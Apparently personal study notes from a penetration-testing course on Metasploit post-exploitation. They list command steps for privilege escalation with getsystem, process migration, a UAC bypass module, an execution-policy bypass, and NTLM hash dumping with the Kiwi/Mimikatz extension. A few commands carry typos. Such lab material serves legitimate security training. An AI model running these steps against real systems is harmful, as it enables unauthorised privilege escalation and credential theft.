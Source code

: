 - Example:
	- As before, we connect to the bind shell on port 4444 on ITWK01, download and execute **met.exe**, and enter **getsystem** to elevate our privileges. Then, we use **ps** to identify the process ID of _OneDrive.exe_, and **migrate** to it.
		- `getsystem`
		- `ps`
		- `migrate 8044`
		- `getuid`
	- To display the integrity level of a process, we can use tools such as _Process Explorer_ or third-party PowerShell modules such as _NtObjectManager_.
	- Once we import the module with _Import-Module_,[4](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/the-metasploit-framework/performing-post-exploitation-with-metasploit/post-exploitation-modules#fn4) we can use _Get-NtTokenIntegrityLevel_[5](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/the-metasploit-framework/performing-post-exploitation-with-metasploit/post-exploitation-modules#fn5) to display the integrity level of the current process by retrieving and reviewing the assigned access token.
		- `shell`
		- `powershell -ep bypass`
		- ````Import-Module NtObjectManager```
		- ```Get-NtTokenIntegrityLevel```
	- Background the currently active channel and session
		- `Ctrl + Z`
		- `bg`
	- search for UAC bypass modules
		- `search UAC`
	- Activate module and set options
		- ```use exploit/windows/local/bypassuac_sdclt```
		- `show options`
		- `set session 9`
		- `set LHOST 192.168.119.4`
		- `run`
	- Check integrity level 
		- `shell`
		- `powershell -ep bypass`
		- `Import_Module NtObjectManager`
		- `````Get-NtTokenIntegrityLevel```
	- **load**
		- loads extensions
		- One great example of this is _Kiwi_, which is a Meterpreter extension providing the capabilities of _Mimikatz_. Because Mimikatz requires SYSTEM rights, let's exit the current Meterpreter session, start the listener again, execute **met.exe** as user _luiza_ in the bind shell, and enter **getsystem**.
			- ```use exploit/multi/handler```
			- `run`
			- `getsystem`
		- *kiwi*
			- `load kiki`
			- `help`
			- **creds_msv**
				- `creds_msv
					- retrieves NTLM hash
- Turn shell into meterpreter shell
	- `search shell_to_meterpreter`
	- `use 0`
	- set session
	- run